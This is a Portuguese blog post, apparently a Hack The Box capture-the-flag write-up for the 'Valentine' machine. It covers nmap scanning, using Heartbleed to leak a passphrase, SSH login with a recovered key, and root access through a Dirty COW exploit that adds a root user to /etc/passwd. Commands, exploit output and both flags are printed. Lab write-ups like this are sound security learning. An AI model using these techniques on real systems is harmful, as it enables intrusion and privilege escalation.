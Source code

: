 ```yaml
---
layout: post
title: Valentine [Hack The Box] - Hearthbleed
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box, exploits, hearthbleed, linux]
---
```

![](https://github.com/brerodrigues/brerodrigues.github.io/raw/master/assets/img/valentine.png)

Essa máquina foi bem fácil e básica, bastou ser um bom script kiddie para conseguir um root fácil. Demorei muito mais tempo que o necessário por não ter percebido algo óbvio que irei citar ao longo do post. A parte mais interessante foi poder explorar e ver na prática a falha Hearthbleed.

Acessando o IP da Valentine no chrome nos leva a uma página estática com uma imagem familiar para quem ficou ligado em notícias de segurança nos últimos tempos. Nela tem a logo de uma vulnerabilidade bem pop e sacar isso já daria meio caminho andado para a flag do user.

Rodei o nmap (nmap -v -A -oN nmap.txt 10.10.10.79) e vi a porta 80/443 com o apache/ssl e a 22 com ssh. E ao mesmo tempo que o nmap, meu dirbuster achou o diretório http://10.10.10.79/dev.

No diretório /dev haviam os arquivos: hype_key e notes.txt.

No notes.txt o conteúdo era:
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

Nesse momento ainda não sabia que porra poderia ser o decoder/encoder, mas guardei essa informação.

Já em hype_key tinha um bocado de hexadecimais que, ao usar esse site http://www.unit-conversion.info/texttools/hexadecimal/, converti para algo bastante interessante:

<script src="https://gist.github.com/brerodrigues/1bc4113bdb9233ce2270fe1afbe864ef.js"></script>

Uma chave privada! Com certeza deve servir para alguma coisa mas ainda não dava para saber.

Então guardei a chave e abri o metasploit porque tive preguiça. Se você precisou se perguntar a razão de eu abrir o metasploit é porque não se ligou que a imagem da página principal faz referência ao "[heartbleed bug](https://brerodrigues.github.io/hacking/o-famoso-e-aterrorizante-bug-heartbleed "heartbleed bug")".

Voltando a meu metasploit, peguei o exploit do heartbleed, configurei o alvo e outros pequenos detalhes que deixo para você adivinhar e rodei sem mesmo precisar checar e o servidor começou a cuspir conteúdo da memória como deveria. Rodei o exploit mais de uma vez procurando por algo facilmente vísivel. Então em meio a um monte de porcaria eu vi isso:

```
......Z..PN..v............2..{p.]4W.$:..f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..U!....c.@..Au..'...............cation/x-www-form-urlencoded..Content-Length: 9....text=asas...K..<y...v.._.
```

Aparentava ser uma requisição http para o tal /decode.php e mais embaixo há a variavel $text com o base64: aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Entrando em http://10.10.10.79/decode.php vi que era um simples decodificador para base64. Era disso que o arquivo notes.txt fazia menção e a requisição faz total sentido. Usei o mesmo para decodificar o valor que peguei com o exploit e obtive o resultado: heartbleedbelievethehype

Temos em mãos uma chave privada e um valor obtido explorando o servidor. O que fazer?

Assim que vi a chave privada pensei em usar direto no servidor SSH, mas sem saber o nome de usuário não rolava. Fiquei viajando por um tempo até perceber o nome do arquivo onde estava a chave em hexadecimal: hype_key.

A chave deveria pertencer ao hype e heartbleedbelievethehype poderia muito bem ser um password.

```
brenno@budweiser ~/D/c/h/valentine> ssh -i new2/hype.txt hype@10.10.10.79
Enter passphrase for key 'new2/hype.txt': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jul 15 18:26:44 2018 from 10.10.15.248
```

Boa! Hora de pegar a flag do user.txt

```
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt
e6710a5464769fd5fcd216e076961750
```

A escalação de privilégios foi bem simples porque a máquina tava rodando um kernel desatualizado:

```
hype@Valentine:~$ uname -r
3.2.0-23-generic
```

Verificar o kernel é quase sempre a primeira coisa que faço porque caso encontre um desses é fácilimo conseguir root. Com uma pesquisa rápida no Google por essa versão se descobre que é vulnerável ao famigerado [dirtycow](https://pt.wikipedia.org/wiki/Dirty_COW "dirtycow").

Então, usei esta versão do exploit: https://ro.0day.today/exploit/26430 e w00t w00t. Se for usar, não esqueça de modificar pelo amor de deus.

Compilando no meu super ultra secreto diretório:
```
hype@Valentine:/tmp/.obrerodrigues$ gcc -pthread poc.c -o dir -lcrypt
```
Rodando e escolhendo um password seguro para uma conta que tem privilégios root:
```
hype@Valentine:/tmp/.obrerodrigues$ ./dir
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
ieatworld:iePFiy4QljHQk:0:0:pwned:/root:/bin/bash

mmap: 7ff5325d2000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.
```
Hora de logar e pegar a flag root:
```
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ su ieatworld
Password: 
ieatworld@Valentine:/tmp/.obrerodrigues# whoami
ieatworld
ieatworld@Valentine:/tmp/.obrerodrigues# ls /root
curl.sh  root.txt
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
```
E só por curiosidade, que tal descobrir o que tem nesse arquivo curl?
```
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/curl.sh
/usr/bin/curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Referer: https://127.0.0.1/decode.php' -H 'Content-Type: application/x-www-form-urlencoded' \
    -b 'PHPSESSID=n12acqnj0efoq5etm5d12k6j85' \
    --data-binary $'text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' \
    'https://127.0.0.1/decode.php' >  /dev/null 2>&1
```
Olha só, é a requisição que peguei com o hearthbleed. Provavelmente havia um cronjob rodando esse script e tal.

E com dois exploits de vulnerabilidades pops e um pouco de atenção foi possível obter as flags.
